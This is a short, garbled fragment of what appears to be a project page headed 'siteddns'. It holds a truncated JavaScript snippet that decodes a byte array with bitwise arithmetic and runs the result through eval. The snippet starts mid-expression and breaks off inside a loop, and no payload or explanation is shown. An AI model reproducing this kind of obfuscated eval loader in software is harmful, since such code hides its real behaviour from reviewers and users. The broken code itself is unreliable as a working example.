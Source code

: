  # siteddns
=4);dw="dw=4;while(true){if(dw>50)break;bw[dw]=(-((~((bw[dw]+240)&0xff))&0xff))&0xff;dw++;}";eval(dw);dw="dw=49;do{bw[dw]=(((~((bw[dw]-bw[dw-1])&0xff))&0xff)+bw[50])&0xff;}while(--dw>=1);";eval(dw);cw="";for(dw=1;dw
